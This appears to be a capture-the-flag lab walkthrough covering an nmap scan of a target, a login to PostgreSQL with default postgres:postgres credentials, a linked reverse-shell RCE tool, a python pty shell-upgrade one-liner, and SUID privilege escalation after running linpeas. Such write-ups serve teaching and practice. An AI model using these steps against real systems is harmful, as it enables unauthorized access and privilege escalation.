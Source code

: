 # Enumeration
`nmap -A -T4 -p- 192.168.148.47`

```
21/tcp   open   ftp          vsftpd 3.0.3
22/tcp   open   ssh          OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 10:62:1f:f5:22:de:29:d4:24:96:a7:66:c3:64:b7:10 (RSA)
|   256 c9:15:ff:cd:f3:97:ec:39:13:16:48:38:c5:58:d7:5f (ECDSA)
|_  256 90:7c:a3:44:73:b4:b4:4c:e3:9c:71:d1:87:ba:ca:7b (ED25519)
80/tcp   open   http         Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Enter a title, displayed at the top of the window.
139/tcp  closed netbios-ssn
445/tcp  closed microsoft-ds
5437/tcp open   postgresql   PostgreSQL DB 11.3 - 11.9
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=debian
| Subject Alternative Name: DNS:debian
| Not valid before: 2020-04-27T15:41:47
|_Not valid after:  2030-04-25T15:41:47
```


# SQL

[Postgres Default Creds](https://github.com/netbiosX/Default-Credentials/blob/master/PostgreSQL-Default-Password-List.md) we can login with default credentials `postgres:postgres`

`psql -h 192.168.148.47 -p 5437 -U postgres`

![](Images/Pasted%20image%2020250503125914.png)

We get the version information Postgres 11.7. Lets see if this is vulnerable.

[Postgres Reverse Shell](https://github.com/squid22/PostgreSQL_RCE)

![](Images/Pasted%20image%2020250503130421.png)

![](Images/Pasted%20image%2020250503130429.png)

Upgrade shell

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

# Post Exploit

Transfer Linpeas over for post exploitation

![](Images/Pasted%20image%2020250503130652.png)

Interesting SUID values for escalation. Find the GTFO bins and exploit the SUID

![](Images/Pasted%20image%2020250503130949.png)

